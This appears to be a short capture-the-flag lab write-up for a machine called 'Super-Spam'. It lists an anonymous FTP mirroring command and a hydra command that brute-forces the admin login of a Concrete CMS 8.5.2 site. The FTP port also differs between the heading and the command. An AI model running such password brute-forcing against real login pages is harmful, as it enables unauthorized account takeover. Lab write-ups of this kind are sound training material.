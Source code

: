 # Super-Spam 

> VOiD | Sunday 31 October 2021 10:07:51 PM IST

My IP : 10.8.253.221
Target IP : 10.10.6.172


## PORT 4901 [ftp]
```bash
wget -r ftp://anonymous:@10.10.6.172:4019/

```

## PORT 80 [Concrete CMS 8.5.2]
```bash


/concrete5/index.php/login/authenticate/concrete

uName=admin&uPassword=admin&ccm_token=1635740234%3Aac0746e860fa39d9131c7a7dbbacc9a6

hydra -l admin -P passes 10.10.6.172 http-post-form "/concrete5/index.php/login/authenticate/concrete:uName=^USER^&uPassword=^PASS^&ccm_token=1635740234%3Aac0746e860fa39d9131c7a7dbbacc9a6:Invalid username or password" -V -t 50

```


